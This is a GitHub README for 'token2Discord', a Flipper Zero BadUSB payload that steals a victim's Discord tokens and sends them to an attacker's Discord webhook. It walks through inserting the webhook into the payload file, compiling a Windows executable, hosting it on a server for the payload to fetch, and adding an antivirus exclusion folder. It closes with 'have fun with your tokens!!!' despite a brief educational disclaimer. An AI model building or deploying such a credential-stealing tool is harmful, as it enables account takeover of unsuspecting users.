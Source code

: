 # token2Discord
Exfiltrate discord tokens and send them via discord webhook using the flipperzero

# Disclaimer
This utility is strictly for educational and/or purposes of which an employer has authority to do so.
The user, YOU, are responsible for the usage of such utility. With that said, use it wisely and legally.

# Prerequisites
```
1. Python3 (optional if building your own payload)
2. Discord Webhook
```
# Setup
```
# Plug and Play!!
# edit token2Discord.txt
Input your discord webhook in the payload file (txt file)
$webhook = 'DISCORD_WEBHOOK'
```
Save token2Discord.txt to flipper, and have fun with your tokens!!!

# Compile (if you want your own)
• Be sure PyInstaller is installed
$ pip3 install -r requirements.txt
* When compiling as an executable, be sure you're on Windows for a Windows payload!! (Common Sense, as MacOS compiled payload will not run on a Windows!)
```
python3 -m PyInstaller token2Discord.py --onefile
```
* After compiling:
  - Inside the /dist directory is your exe file
* Upload exe to a server, local python server, etc... do as you will.

# Key note
* this is not made to bypass AV, but rather sets an exclusion at C:\temp, then resets such  
